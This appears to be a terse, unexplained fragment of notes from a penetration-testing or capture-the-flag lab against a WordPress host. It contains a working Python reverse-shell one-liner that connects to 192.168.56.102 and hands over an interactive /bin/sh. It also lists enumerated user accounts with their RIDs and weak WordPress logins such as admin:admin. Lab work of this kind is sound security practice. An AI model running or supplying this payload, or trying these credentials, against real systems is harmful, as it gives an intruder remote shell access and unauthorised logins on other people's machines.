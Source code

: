 python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.102",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'


user:[nobody] rid:[0x1f5]
user:[viper] rid:[0x3e8]
user:[wpadmin] rid:[0x3ea]
user:[root] rid:[0x3e9]


wp - admin

admin:admin
wpuser:wpuser
